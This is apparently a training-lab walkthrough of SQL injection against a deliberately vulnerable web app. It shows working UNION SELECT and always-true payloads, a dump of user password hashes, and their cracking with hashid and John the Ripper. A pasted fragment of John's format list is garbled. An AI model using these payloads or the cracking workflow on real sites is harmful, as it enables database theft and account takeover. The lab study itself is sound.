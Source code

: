 # Low level 
id=1&Submit=Submit#
putting 1 as input we get back the ID(The input), first name and surname fields
so its like select first_name, last_name from users where user_id = '1';

Putting a Single ' will resulting an Error 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' '' '' at line 1
This happened because the query was user_id ' ';

Testing Always True Scenario, like 1=1
On the query, it looks like
WHERE user_id = 1' OR' 1 '=' 1

We have the First name and Surname fields of all 5 users. 
to find out if there are more fields on the databse we need to perform a UNION attack combined with ORDER BY clause, this work because after the order by clause indicates the column index, thus if we try order our table with value of, for example "5" while the table only has "4" then we will get an Unknown column error
for example 
ORDER BY 3
?id=%27+ORDER+BY+3--+&Submit=Submit#
will return:
Unknown column '3' in 'order clause'
That means there are only 2 Fields on the Table.

And now we can try to guess those fields by using ' UNION SELECT username, password FROM users#
and we got " Unknown column 'username' in 'field list' " as the Result
which means username is not one of the field from the table, but password is one of the fields, lets try changing it to something similar "user" for example:
' UNION SELECT user, password FROM users#
from the input we got the result:
```
ID: ' UNION SELECT user, password FROM users# 
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID: ' UNION SELECT user, password FROM users# 
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID: ' UNION SELECT user, password FROM users# 
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID: ' UNION SELECT user, password FROM users# 
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID: ' UNION SELECT user, password FROM users# 
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
since all the password are hashed we can use tool "Hashid" to find what form of hash these password uses
```
hashid 5f4dcc3b5aa765d61d8327deb882cf99
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
and then find how MD5 format works 
eCryptfs, eigrp, electrum, ENCDataVault-MD5, ENCDataVault-PBKDF2, EncFS,
Padlock, Palshop, Panama, PBKDF2-HMAC-MD4, PBKDF2-HMAC-MD5, PBKDF2-HMAC-SHA1,
Raw-Blake2, Raw-Keccak, Raw-Keccak-256, Raw-MD4, Raw-MD5, Raw-MD5u, Raw-SHA1,
solarwinds, SSH, sspr, Stribog-256, Stribog-512, STRIP, SunMD5, SybaseASE,
433 formatsHMAC-MD5, HMAC-SHA1, HMAC-SHA224, HMAC-SHA256, HMAC-SHA384, HMAC-SHA512,

crack the hashes 
 $ john --format=Raw-MD5 hashes --wordlist=/usr/share/wordlists/rockyou.txt

 Using default input encoding: UTF-8
 Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
 Warning: no OpenMP support for this hash type, consider --fork=16
 Press 'q' or Ctrl-C to abort, almost any other key for status
 password         (?)
 abc123           (?)
 letmein          (?)
 charley          (?)
 4g 0:00:00:00 DONE (2023-12-12 16:49) 133.3g/s 102400p/s 102400c/s 179200C/s skyblue..dangerous
 Warning: passwords printed above might not be all those cracked
```

Medium:
Inspect the web
Edit the Value from the choice to the condition always true
for example 
```
1 OR 1 = 1
```
Higher difficulty:

on the change ID insert
```
'Session ID: 'UNION SELECT user,password from users#' 
```
